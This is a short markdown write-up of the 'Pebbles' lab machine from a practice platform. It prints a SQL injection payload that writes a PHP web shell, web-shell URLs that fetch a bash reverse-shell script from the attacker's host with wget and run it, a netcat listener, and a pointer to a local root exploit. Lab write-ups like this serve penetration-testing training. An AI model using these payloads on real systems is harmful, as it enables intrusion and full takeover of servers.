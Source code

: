 # 🪨 Pebbles (Linux)

## 🌐 Initial Foothold

📘 Walkthrough Reference:  
- [Notion Writeup by Luis Moret](https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8)

🔎 SQL Injection → Web Shell

Discovered SQL injection vulnerability. Used the following SQL command to upload a PHP web shell:

```sql
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"
```

Then accessed the webshell at:

```
http://192.168.216.52:3305/webshell.php?cmd=
```

🛠️ Uploaded a custom bash reverse shell script using:

```
http://192.168.216.52:3305/webshell.php?cmd=wget 192.168.45.229/bash.sh -O /tmp/bash.sh
```

Started listener:

```bash
nc -nlvp 80
```

Executed the reverse shell:

```
http://192.168.216.52:3305/webshell.php?cmd=/bin/bash%20/tmp/bash.sh
```

Got a shell back!

---

## 🧑‍💻 Privilege Escalation

Followed the steps in the walkthrough to escalate privileges using the following local root exploit:  
🔗 [exploit-db 1518](https://www.exploit-db.com/exploits/1518)

Compiled and ran it to get a root shell.

---

## 🧠 Key Takeaways

🔍 SQLi can be used to drop web shells directly using `INTO OUTFILE`  
🕳️ Simple web shells are still powerful when combined with `wget` or `curl`  
🚀 Local privilege escalation via kernel exploits requires proper enumeration  
